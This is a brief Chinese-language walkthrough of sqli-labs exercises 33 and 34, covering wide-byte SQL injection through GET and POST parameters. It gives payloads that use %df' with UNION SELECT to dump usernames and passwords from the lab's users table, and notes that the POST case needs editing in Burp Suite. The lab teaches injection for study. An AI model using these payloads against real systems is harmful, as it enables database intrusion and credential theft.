 (https://www.cnblogs.com/linfangnan/p/13963425.html#3073750754)

注入的 payload 和 Less 32 完全一样，爆出用户名和密码。

```sql
Copy ?id=-1%df' UNION SELECT 1,group_concat(concat_ws(0x3a,username,password)),3 FROM security.users--+
```

[![img](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less33.assets/1774310-20201113235116331-1857020334.png)](https://img2020.cnblogs.com/blog/1774310/202011/1774310-20201113235116331-1857020334.png)










 # post宽字节注入

## less34

post宽字节注入

去burpsuite里提交数据包，与直接前端提交不同。



```
重要！
在post情况下的宽字节注入，得直接在burp的post数据包中修改，因为前端提交的时候和直接在数据包中修改，前端的不会变成中文

uname=admi%df' union select 1,2 #&passwd=admin&submit=Submit
```
